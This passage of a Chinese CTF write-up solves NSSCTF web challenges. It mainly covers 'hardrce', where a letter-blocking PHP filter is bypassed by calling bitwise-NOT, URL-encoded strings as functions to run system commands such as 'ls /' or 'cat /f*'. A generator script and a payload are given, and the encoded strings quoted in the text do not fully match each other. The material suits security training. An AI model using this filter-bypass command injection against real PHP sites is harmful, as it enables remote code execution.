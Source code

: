 ![](./img/git泄露-2.5.png)

根据提示查看1.0标签的具体变动：

![](/img/git泄露-3.png)

---

## [SWPUCTF 2021 新生赛]hardrce

https://www.nssctf.cn/problem/439

* 考点：无字母CRE
* 工具：php

根据网页提示的代码可以看出，过滤规则过滤了一些字符，包括常用的指令当中的字符与所有的英文大小写字母，所以要想实现命令执行就要绕过这个严苛的过滤：

这里采用的方法是用urlencode函数进行编码然后再取反，因为没有过滤 `()` 所以可以借助这一点来构建函数 e.g. system(ls /)

> 提交的 GET 参数实际上是经过 URL 编码的，这样即使编码串中包含字母，也是在表示一个字节（例如 %8C 表示 0x8C），而不是直接的字母字符
> 当 PHP 接收到参数时，会先进行 URL 解码，恢复成原始的字节序列（例如 0x8C, 0x86, …），这时这些字节不属于常规的 ASCII 字母范围
> 因此，严格过滤字母的正则判断是在对解码后的数据检查，结果不会因为 URL 编码后的 A–F 而被触发过滤

所以可以使用下面的代码去实现这个操作：

```php
<?php
$a="system";
$b = "cat /f*";

// $b = "cat /f*";
echo urlencode(~$a); 
print("\n"); 
echo urlencode(~$b);
?>
```

得到编码取反的结果后再进行包装取反构建 payload 即可

```
?wllm=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0)
```

> 这里写成 (~%8C%86%8C%8B%9A%92)，括号只是将按位取反的结果封装成一个表达式。这个表达式的计算结果是字符串 "system"，但括号本身不是字符串的一部分，而是语法的一部分。
> 紧跟着的那一对括号 (~%9C%9E%8B%DF%D0%99%D5) 用来提供参数。PHP 允许通过变量函数调用，即如果一个表达式返回一个函数名（字符串），那么紧跟着的括号会被解释为函数调用

---

## [NSSCTF 2022 Spring Recruit]ezgame

https://www.nssctf.cn/problem/2074

* 考点：js分析，源码泄露，信息收集
* 工具：浏览器
  通过检查网页源码可以发现，提示我们通过获取分数超过 65 来得到 flag ，于是想到通过嵌入 js 代码实现。
  同时，可以发现，网页使用的 js 代码可以直接被访问查看，通过查看源码可以直接发现标记score 的变量名称为：`scorePoint`，所以构建了一个 button 组件在网页中，当去点击这个按钮时，就会执行其中的 js 代码，实现变量赋值，最后再执行最后的回显，得到 flag：
